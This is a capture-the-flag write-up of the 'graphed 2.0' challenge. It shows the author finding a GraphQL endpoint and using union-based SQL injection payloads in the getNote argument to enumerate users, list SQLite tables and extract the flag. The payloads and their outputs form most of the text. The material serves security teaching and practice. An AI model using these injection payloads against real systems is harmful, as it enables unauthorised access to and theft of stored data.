



# graphed 2.0

This was part of the 0x41414141 CTF in January 2021.



The page looks like this:




Noticed this in the page source:

```
<script>

function create_note() {

alert("sorry but this functionality is disabeled due to technical problems");

//query_data = `mutation {createNote(body:${document.getElementById("note-content").value}, title:"anon note", username:"guest"){note{uuid}}}`;

//fetch(`/graphql?query=mutation{createNote(body:"ww", title:"anon note", username:"guest"){note{uuid}}}`, {method: "POST"});

}
</script>
```

This suggests there is a "graphql" API that we might be able to talk to.

I'm not an expert but here's a starting link:

https://graphql.org/learn/


I did some googling and found a tool called Altair GraphQL for OSX and installed it using homebrew:

```
brew install --cask altair-graphql-client
==> Downloading https://github.com/imolorhe/altair/releases/download/v3.0.0/altair_3.0.0_mac.zip
==> Downloading from https://github-production-release-asset-2e65be.s3.amazonaws.com/86188653/9970cf80-2de5-11eb-82e3-e76bfefdc
######################################################################## 100.0%
==> Installing Cask altair-graphql-client
==> Moving App 'Altair GraphQL Client.app' to '/Applications/Altair GraphQL Client.app'.
🍺  altair-graphql-client was successfully installed!
```

Running this yields a lovely application.

You can enter in the URL representing the graphql "endpoint" and it must silently send it some "introspection" queries to learn what kind of domain objects you can play with.

https://graphql.org/learn/introspection/



The application is wonderful to use and exposes these domain objects in a Documentation pane on the right.

As you are typing your query on the left it auto-suggests things which makes it way easier to craft a meaningful query.

Noticing that the getNote method takes an argument called 'q' I guessed that there was some traditional SQL database supporting all of this graphql coolness and tried a simple SQL injection (a single quote) into that argument.

I ran this query:

```
query{
  getNote(q: "'"){
    uuid
    title
    body
    authorId
    id
  }
}
```

This result came back:

```
{
  "errors": [
    {
      "message": "(sqlite3.OperationalError) unrecognized token: \"'''\"\n[SQL: SELECT * FROM NOTES where uuid=''']\n(Background on this error at: http://sqlalche.me/e/13/e3q8)",
      "locations": [
        {
          "line": 2,
          "column": 3
        }
      ],
      "path": [
        "getNote"
      ]
    }
  ],
  "data": {
    "getNote": null
  }
}
```

Nice!  This error tells us a few things:

* sqlite is at play
* there is a table called **NOTES**
* it has at least one column called **uuid**
* our injection appears in an equality comparison against that **uuid** column


Obvious first thing to try:

```
query{
  getNote(q: "' or 1=1; --"){
    uuid
    title
    body
    authorId
    id
  }
}
```

This returned a bunch of stuff but not the flag.

Totally guessing that there might be a USERS table, I tried this:

```
query{
  getNote(q: "' union select uuid,username,3,4 from USERS; --"){
    uuid
    title
    body
    authorId
    id
  }
}
```

Note that at first I just had **uuid,username* and got an error that the UNION must have the same number of columns as the original query.

So, I added ,3 and still got the error.  Then I added ,3,4 and it worked.  That tells us the original query must have 4 columns.

The above query returns:

```
{
  "errors": [
    {
      "message": "Received incompatible instance \"(1, 'pop_eax', 3, 4)\"."
    },
    {
      "message": "Received incompatible instance \"(2, 'admin', 3, 4)\"."
    }
  ],
  "data": {
    "getNote": [
      null,
      null
    ]
  }
}
```

Since we added two more "unusual" rows onto their query results, I'm guessing the code tried to parse those results and decided they didn't fit the "shape" they were expecting and so they generated this error.

That's fine with us since the error surfaces all the data we wanted.

We learned there are two users: pop_eax and admin

From past CTFs, I've learned that sqlite has a magic table called **sqlite_master** that you can query which will list all of the table names.  Let's try that:

```
query{
  getNote(q: "' union select name,2,3,4 from sqlite_master; --"){
    uuid
    title
    body
    authorId
    id
  }
}
```

Notice we're again appending dummy values just to ensure we have four columns.

```
{
  "errors": [
    {
      "message": "Received incompatible instance \"('Notes', 2, 3, 4)\"."
    },
    {
      "message": "Received incompatible instance \"('ix_Notes_title', 2, 3, 4)\"."
    },
    {
      "message": "Received incompatible instance \"('ix_users_username', 2, 3, 4)\"."
    },
    {
      "message": "Received incompatible instance \"('users', 2, 3, 4)\"."
    },
    {
      "message": "Received incompatible instance \"('العلم', 2, 3, 4)\"."
    }
  ],
  "data": {
    "getNote": [
      null,
      null,
      null,
      null,
      null
    ]
  }
}
```

The last table name has non-English characters in it so it caught my attention.

Let's try to see what is in it!


```
query{
  getNote(q: "' union select * العلم; --"){
    uuid
    title
    body
    authorId
    id
  }
}
```

This gave an error about the wrong number of columns.  So I tried adding some dummy values until I hit this:

```
query{
  getNote(q: "' union select *,1,2 from العلم; --"){
    uuid
    title
    body
    authorId
    id
  }
}
```

This worked and returned:

```
{
  "errors": [
    {
      "message": "Received incompatible instance \"(0, \"flag{h0p3_u_can't_r3@d_1t9176}\", 1, 2)\"."
    }
  ],
  "data": {
    "getNote": [
      null
    ]
  }
}
```

And so we got the flag. :)

